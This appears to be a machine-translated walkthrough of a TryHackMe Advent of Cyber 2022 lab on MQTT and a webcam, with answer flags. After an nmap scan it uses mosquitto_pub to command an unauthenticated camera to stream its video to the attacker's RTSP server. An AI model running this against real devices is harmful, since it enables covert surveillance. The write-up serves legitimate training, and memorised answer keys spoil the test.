








# Cyber 2022[第 21 天]来临 MQTT |拥有一个快乐的小网络摄像头-简单的记录

> 原文：<https://infosecwriteups.com/advent-of-cyber-2022-day-21-mqtt-have-yourself-a-merry-little-webcam-simple-write-up-553be880db73?source=collection_archive---------0----------------------->

## 任务 26-MQTT |给自己一个快乐的小摄像头-网络 2022 的来临[第 21 天]-答案撰写和演练



# 消息协议和中间件



> ***利用攻击箱进行攻击***

首先，让我们执行一次 Nmap 扫描

```
nmap -p- 10.10.150.215 -vv -sV -sC --min-rate 1500
```

输出:

```
┌──(cyberw1ng㉿root)-[~]
└─$ nmap -p- 10.10.150.215 -vv -sV -sC --min-rate 1500

Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-21 11:06 IST
Scanning 10.10.150.215 [2 ports]
Scanning 10.10.150.215 (10.10.150.215) [65535 ports]

#Discovered open port 22/tcp on 10.10.150.215
#Discovered open port 80/tcp on 10.10.150.215
#Discovered open port 1883/tcp on 10.10.150.215

Not shown: 65532 closed tcp ports (conn-refused)

PORT     STATE SERVICE                 REASON  VERSION
22/tcp   open  ssh                     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 17e553cf2a0ebe5b6af0233dacdc07f3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCv6o9FZFxN/PUlNXGXBJ0QWwpolESTvkSYxvDR9yW3p1K2KVAY4VEeqawoFSIGm3+chCvQk2q/e7FE5LA6yuXFsXEyPbN0lerQBwTVwVTTn6CCjTeEC/EUpsV+J1/LDeidajS9vBW5oXeWzysZ2fy8TH3xwlakFP/cFv9Tc5WwreH5IOi6qwPh9x3h/6wft8mNbBKczaFW9mQPEIaoMhSwKKeNJSJYF/EvJMp/TFdojKZYzeDnuYfU0n0ZWA/gHtX0MA2yJaYwTohbUxgNrFpV8Ev1iqxCI5Gethg8e9muEMSjvGF+kib3D9o78K3Dka6s76TlHy8AacJoz7DPQbIiXdGL2ZskWv+Kye+W0vqJTAxhxGQfWFCzCAPwv3PqcHHqDIXQY8dHy9MwUrK48wNON69KJFreklYtwatJdJtlJLpONtPqRHD0h6dVYx7L4GX4++E56pm6nX4IeEOsJflKPPJIDYGBl3E4+Zo5r9C6lZnE/ZOsKq+MkU1XeFe15TU=
|   256 032ef2d20c95e3d97eeca0aa7ba16cd0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIdK3mhrZdHxEouf+P+8jbtteJBj0tnC33tj74GD5/YfMY2nHXbSkW+UPQZFU8ZtZ3uK9PziLvm4YAg6ufyBhFs=
|   256 2e90c7317e62d51e89f1544597290ad6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIM8v/s/JZbJOpNarVPoCrl1flxQML3GP5VXhkyy94Y67
80/tcp   open  http                    syn-ack WebSockify Python/3.8.10
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 405 Method Not Allowed
|     Server: WebSockify Python/3.8.10
|     Date: Thu, 22 Dec 2022 05:37:24 GMT
|     Connection: close
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 472
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 405</p>
|     <p>Message: Method Not Allowed.</p>
|     <p>Error code explanation: 405 - Specified method is invalid for this resource.</p>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 501 Unsupported method ('OPTIONS')
|     Server: WebSockify Python/3.8.10
|     Date: Thu, 22 Dec 2022 05:37:25 GMT
|     Connection: close
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 500
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 501</p>
|     <p>Message: Unsupported method ('OPTIONS').</p>
|     <p>Error code explanation: HTTPStatus.NOT_IMPLEMENTED - Server does not support this operation.</p>
|     </body>
|_    </html>
|_http-title: Error response
|_http-server-header: WebSockify Python/3.8.10

#1883/tcp open  mosquitto version 1.6.9 syn-ack
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/broker/clients/total: 4
|     $SYS/broker/clients/active: 4
|     $SYS/broker/load/publish/received/15min: 2.03
|     $SYS/broker/load/sockets/5min: 0.88
|     $SYS/broker/load/bytes/received/1min: 276.74
|     $SYS/broker/store/messages/bytes: 180
|     $SYS/broker/publish/messages/sent: 70
|     $SYS/broker/load/connections/15min: 0.32
|     $SYS/broker/uptime: 374 seconds
|     $SYS/broker/publish/messages/received: 37
|     $SYS/broker/bytes/sent: 2735
|     $SYS/broker/load/publish/sent/15min: 4.21
|     $SYS/broker/load/bytes/sent/1min: 1482.40
|     $SYS/broker/publish/bytes/received: 740
|     $SYS/broker/heap/maximum: 57352
|     $SYS/broker/clients/connected: 4
|     $SYS/broker/load/publish/received/1min: 6.19
|     $SYS/broker/publish/bytes/sent: 897
|     $SYS/broker/load/messages/sent/1min: 42.00
|     $SYS/broker/load/connections/5min: 0.65
|     $SYS/broker/version: mosquitto version 1.6.9
|     $SYS/broker/load/bytes/sent/15min: 165.49
|     $SYS/broker/store/messages/count: 39
|     $SYS/broker/subscriptions/count: 4
|     $SYS/broker/retained messages/count: 42
|     $SYS/broker/load/bytes/received/15min: 83.09
|     $SYS/broker/load/sockets/15min: 0.43
|     $SYS/broker/load/publish/sent/5min: 10.76
|     #device/init: FFISRRN3EAJUZSUVK1QB
|     $SYS/broker/load/messages/received/15min: 3.46
|     $SYS/broker/load/messages/received/5min: 7.36
|     $SYS/broker/messages/received: 63
|     $SYS/broker/messages/sent: 96
|     $SYS/broker/clients/maximum: 4
|     $SYS/broker/bytes/received: 1521
|     $SYS/broker/heap/current: 56872
|     $SYS/broker/load/bytes/received/5min: 175.57
|     $SYS/broker/load/connections/1min: 1.26
|     $SYS/broker/load/sockets/1min: 1.41
|     $SYS/broker/load/publish/sent/1min: 36.35
|     $SYS/broker/load/messages/sent/15min: 5.64
|     $SYS/broker/messages/stored: 39
|     $SYS/broker/load/messages/sent/5min: 13.84
|     $SYS/broker/load/messages/received/1min: 11.85
|     $SYS/broker/load/publish/received/5min: 4.28
|_    $SYS/broker/load/bytes/sent/5min: 426.78
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.93%I=7%D=12/22%Time=63A3ED14%P=x86_64-pc-linux-gnu%r(Get
SF:Request,291,"HTTP/1\.1\x20405\x20Method\x20Not\x20Allowed\r\nServer:\x2
SF:0WebSockify\x20Python/3\.8\.10\r\nDate:\x20Thu,\x2022\x20Dec\x202022\x2
SF:005:37:24\x20GMT\r\nConnection:\x20close\r\nContent-Type:\x20text/html;
SF:charset=utf-8\r\nContent-Length:\x20472\r\n\r\n<!DOCTYPE\x20HTML\x20PUB
SF:LIC\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\"http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x
SF:20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Con
SF:tent-Type\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>
SF:\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20
SF:response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20405
SF:</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Method\x20Not\x20A
SF:llowed\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code\x20expla
SF:nation:\x20405\x20-\x20Specified\x20method\x20is\x20invalid\x20for\x20t
SF:his\x20resource\.</p>\n\x20\x20\x20\x20</body>\n</html>\n")%r(HTTPOptio
SF:ns,2B9,"HTTP/1\.1\x20501\x20Unsupported\x20method\x20\('OPTIONS'\)\r\nS
SF:erver:\x20WebSockify\x20Python/3\.8\.10\r\nDate:\x20Thu,\x2022\x20Dec\x
SF:202022\x2005:37:25\x20GMT\r\nConnection:\x20close\r\nContent-Type:\x20t
SF:ext/html;charset=utf-8\r\nContent-Length:\x20500\r\n\r\n<!DOCTYPE\x20HT
SF:ML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\
SF:x20\x20\x20\x20\"http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\
SF:x20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-eq
SF:uiv=\"Content-Type\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\
SF:x20\x20\x20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x
SF:20</head>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>
SF:Error\x20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20cod
SF:e:\x20501</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Unsupport
SF:ed\x20method\x20\('OPTIONS'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p
SF:>Error\x20code\x20explanation:\x20HTTPStatus\.NOT_IMPLEMENTED\x20-\x20S
SF:erver\x20does\x20not\x20support\x20this\x20operation\.</p>\n\x20\x20\x2
SF:0\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 1.Mosquitto 在哪个港口运行？

```
Ans: 1883
```

## 2.在所有端口的脚本扫描期间，*设备/初始化*主题是否被 Nmap 枚举？(是/否)

我突出显示了枚举设备/init 的行

> 如果看不到枚举。执行给定的命令

```
nmap -sC -sV -p- <Target IP> -vv --min-rate 1500 
```

```
Ans: y
```

## 3.该设备使用的是什么 Mosquitto 版本？

```
Ans: 1.6.9
```

## 4.观看 RTSP 河可以获得什么标志？

如果你需要 mosquitto_sub，你可以通过命令安装它，但是攻击箱已经安装了 **Mosquitto 客户端**

```
sudo apt install mosquitto-clients
```



1.  我们必须订阅 device/init 主题来枚举设备并获取设备 ID



2.让我们用 docker 启动 RTSP 服务器

```
sudo docker run --rm -it --network=host aler9/rtsp-simple-server 
```



```
─$ sudo docker run --rm -it --network=host aler9/rtsp-simple-server  
Unable to find image 'aler9/rtsp-simple-server:latest' locally
latest: Pulling from aler9/rtsp-simple-server
d7c47958dda1: Pull complete 
Digest: sha256:44ce06f758a74f316ae4d912706c5212af2fb4765137e119ff689c5ec327dc94
Status: Downloaded newer image for aler9/rtsp-simple-server:latest
2022/12/22 06:06:45 INF rtsp-simple-server v0.21.0
2022/12/22 06:06:45 INF [RTSP] listener opened on :8554 (TCP), :8000 (UDP/RTP), :8001 (UDP/RTCP)
2022/12/22 06:06:45 INF [RTMP] listener opened on :1935
2022/12/22 06:06:45 INF [HLS] listener opened on :8888
2022/12/22 06:06:45 INF [WebRTC] listener opened on :8889
```

3.现在使用以下命令发布有效负载

```
mosquitto_pub -h <THM-Machine-IP> -t device/<Device-ID>/cmd -m """{"cmd":"10","url":"rtsp://<Your_Machine-IP>:8554/abcdefghijk"}"""
```



4.您可以通过运行 VLC 并打开本地托管的 RTSP 服务器的服务器路径来查看发送到服务器的内容

```
vlc rtsp://127.0.0.1:8554/abcdefghijk
```



```
Ans: THM{UR_CAMERA_IS_MINE}
```

感谢您的阅读！！

黑客快乐~

```
Author : Karthikeyan Nagaraj ~ Cyberw1ng
```

THM，TryHackMe，TryHackMe 网络 2022 年的到来，TryHackMe 网络 4 第 21 天的到来，道德黑客，写，走过，TryHackMe 网络 2022 年的到来第 21 天的答案，karthikeyan nagaraj

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！